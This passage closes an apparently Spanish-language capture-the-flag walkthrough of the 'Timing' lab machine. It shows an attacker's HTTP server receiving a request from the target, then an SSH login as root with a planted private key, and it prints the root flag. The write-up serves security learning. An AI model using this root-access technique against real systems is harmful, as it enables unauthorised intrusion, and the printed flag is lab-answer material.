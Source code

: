 Nos llega la petición al servidor...

```console
p3ntest1ng:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.135 - - [08/Apr/2022 17:02:54] "GET /wild HTTP/1.0" 200 -
10.10.11.135 - - [08/Apr/2022 17:02:55] "GET /wild HTTP/1.0" 200 -
^C
Keyboard interrupt received, exiting.
```

Ahora deberíamos ser capaces de conectarnos por SSH a la máquina como el usuario **`root`**, haciendo uso de nuestra clave privada.
Primero vamos a copiar la clave en nuestro directorio local **`~/.ssh/`** y asignarle los permisos adecuados.

```console
p3ntest1ng:~$ cp pwnkey ~/.ssh/pwnkey
p3ntest1ng:~$ chmod 600 ~/.ssh/pwnkey
p3ntest1ng:~$ ssh -i ~/.ssh/pwnkey root@10.10.11.135
...[snip]...
root@timing:~# ls
axel  netutils.jar  root.txt
root@timing:~# cat /root/root.txt
2eba350c0f2927d1ed53c2ddcd989901
```

### ¡Gracias por leer hasta el final!

#### Nos vemos en un próximo. ¡Feliz hacking! ☠